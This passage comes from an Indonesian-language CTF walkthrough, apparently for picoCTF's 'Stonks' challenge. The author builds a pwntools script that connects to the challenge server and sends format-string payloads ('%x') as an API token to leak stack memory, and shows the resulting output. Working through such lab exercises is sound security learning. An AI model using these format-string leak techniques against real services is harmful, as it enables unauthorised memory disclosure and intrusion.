 ```
[+] Opening connection to mercury.picoctf.net on port 59616: Done
XXX\pwn_test.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('2) View my portfolio\n')
XXX\pwn_test.py:49: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
XXX\pwn_test.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('What is your API token?\n')
XXX\pwn_test.py:55: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x\n")
b'87d7350\n'
[*] Closed connection to mercury.picoctf.net port 59616
```
Nah mantap akhirnya binarynya keprint juga. Coba kalau kita print lebih banyak lagi isi stacknya. Untuk separatornya pake apa ya? Gimana kalo spasi aja?
```
import pwn

#connect ke server
r = pwn.connect('mercury.picoctf.net',59616)

#tunggu sampai prompt aksi kelar
r.recvuntil('2) View my portfolio\n')

#kirim input
r.send("1\n")

#tunggu sampai prompt API key muncul
r.recvuntil('What is your API token?\n')

#kirim payload
r.send("%x %x\n")

#skip line "Buying stonks with token:\n"
r.recvline()

#print hasil exploit
print(r.recvline())
```
Coba kita run lagi
```
[x] Opening connection to mercury.picoctf.net on port 59616
[x] Opening connection to mercury.picoctf.net on port 59616: Trying 18.189.209.142
[+] Opening connection to mercury.picoctf.net on port 59616: Done
XXX\pwn_test.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('2) View my portfolio\n')
XXX\pwn_test.py:49: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("1\n")
XXX\pwn_test.py:52: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.recvuntil('What is your API token?\n')
XXX\pwn_test.py:55: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send("%x %x\n")
b'893e3f0\n'
[*] Closed connection to mercury.picoctf.net port 59616
```
Lah gak keprint dong. Apa karena dia ngirim responsenya kalo ketemu spasi bakal dikasih newline ya? Hmm..coba ganti yang lain, coba pake underscore(_)!